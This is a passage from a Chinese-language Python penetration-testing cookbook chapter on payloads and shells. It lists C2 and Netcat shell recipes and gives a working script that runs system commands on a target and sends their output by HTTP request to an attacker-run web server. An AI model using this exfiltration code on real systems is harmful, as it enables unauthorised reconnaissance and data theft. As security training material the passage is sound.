 # 第 8 章有效载荷和炮弹

在本章中，我们将介绍以下主题：

*   通过 HTTP 请求提取数据
*   创建 HTTP C2
*   创建 FTP C2
*   创建 Twitter C2
*   创建一个简单的 Netcat shell

# 导言

在本章中，我们将介绍如何在 Python 中创建反向 shell 和有效负载。一旦在 Linux 或 Mac 系统上发现上传漏洞，Python 有效负载将处于下一步的最佳位置。它们很容易制作或定制，以匹配特定的系统，具有明确的功能，最重要的是，几乎所有 Mac 和 Linux 系统默认都带有 Python2.7。

# 通过 HTTP 请求提取数据

我们将要创建的第一个脚本将使用一种非常简单的技术从目标服务器提取数据。有三个基本步骤：在目标上运行命令，通过 HTTP 请求将输出传输给攻击者，并查看结果。

## 准备好了吗

此配方需要攻击者可以访问的 web 服务器，以便接收来自目标的 HTTP 请求。幸运的是，Python 有一种非常简单的启动 web 服务器的方法：

```
$ Python –m SimpleHTTPServer

```

这将在端口`8000`上启动 HTTP web 服务器，提供当前目录中的所有文件。它接收到的任何请求都直接打印到控制台，这使它成为获取数据的一种非常快速的方法，因此是对该脚本的一个很好的补充。

## 怎么做…

这是将在服务器上运行各种命令并通过 web 请求传输输出的脚本：

```
import requests
import urllib
import subprocess
from subprocess import PIPE, STDOUT

commands = ['whoami','hostname','uname']
out = {}

for command in commands:
    try:
            p = subprocess.Popen(command, stderr=STDOUT, stdout=PIPE)
            out[command] = p.stdout.read().strip()
    except:
        pass

requests.get('http://localhost:8000/index.html?' + urllib.urlencode(out))
```
